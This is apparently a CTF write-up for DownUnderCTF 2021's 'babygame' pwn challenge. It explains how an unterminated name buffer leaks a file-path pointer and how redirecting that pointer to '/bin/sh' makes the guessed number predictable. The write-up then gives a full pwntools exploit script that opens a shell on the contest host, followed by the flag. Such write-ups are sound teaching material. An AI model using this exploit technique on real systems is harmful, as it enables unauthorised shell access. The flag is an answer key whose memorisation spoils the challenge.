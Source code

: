 ```yaml
---
title: "[writeup][DownUnderCTF 2021] pwn-babygame"
date: 2021-10-09 13:01:03
tags:
    - writeup
    - ctf
    - ductf
    - pwn
    - buffer overflow
categories:
    - CTF
---
```


## Mitigations

```
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
```

## Solution

### vuln 1

in game() function, it will ask us to provide number that is equals the first 4 bytes of `/dev/urandom`, if we guess it right, it will give us a shell. however guessing is not possible.

<!-- more -->
```
// from main

_RANDBUF = "/dev/urandom";

// from game()
    uVar2 = fopen(_RANDBUF, 0x2098);
    fread(&ptr, 1, 4, uVar2);
    printf("guess: ");
    iVar1 = get_num();
    if (iVar1 == ptr) {
        system("/bin/sh");
    }
```

### vuln 2

since `NAME` if 0x20 bytes long, so if we can write fill NAME with 0x20 bytes long, it will print out the next variable in the stack.

*because if the entire buff is filled, the string will not terminate and continue reading until we get a null bytes.*

and it set_name using `strlen`, so the total length would be 0x20+(length until it meet a null bytes)

```
// from print_username()
	puts(NAME);

// from set_username()
    uVar2 = strlen(NAME);
    fread(NAME, 1, uVar2, uVar1);
```

since the `_RANDBUF` is just beblow the `NAME`, we can first get the pointer of `_RANDBUF` and change the pointer in `_RANDBUF` to an known file, in this case we use `/bin/sh`

```
;-- NAME:
0x000040a0-0x000040c0
;-- RANDBUF:
0x000040c0-0x000040c8
```

### process

first write 32 bytes of name, than print name to get the pointer of `_RANDBUF`, after we got pointer of `_RANDBUF` we can use set_name to change this address to a existing `/bin/sh` string by offset.

```
;-- str.dev_urandom:
0x00002024          .string "/dev/urandom" ; len=13
;-- str.bin_sh:
0x000020a3          .string "/bin/sh" ; len=8
```

## Exploits

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=pwn-2021.duc.tf' '--port=31907' babygame
import os

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('babygame')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31907)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

with open("/bin/sh","rb") as f:
    a = f.read(4)
    print("num",int.from_bytes(a,"little"))

io = start()

io.sendafter(b"name?\n",b"a"*32)
io.sendafter(b"Username\n> ",b"2")
print(io.recv(32))
a = io.recvn(6)
# b = io.recvn(6)
ptr = (int.from_bytes(a,"little")+0x20a3-0x2024).to_bytes(0x6,"little")
print(ptr)
io.sendafter(b"Username\n> ",b"1")
print("overwrite pointer")
io.sendafter(b"username to?\n",b"a"*32+ptr)
print("overwrite pointer ok")
print(io.recv(1024))
io.send(b"1337")
print(io.recv(1024))
io.send(b'1179403647')
io.interactive()
```

DUCTF{whats_in_a_name?_5aacfc58}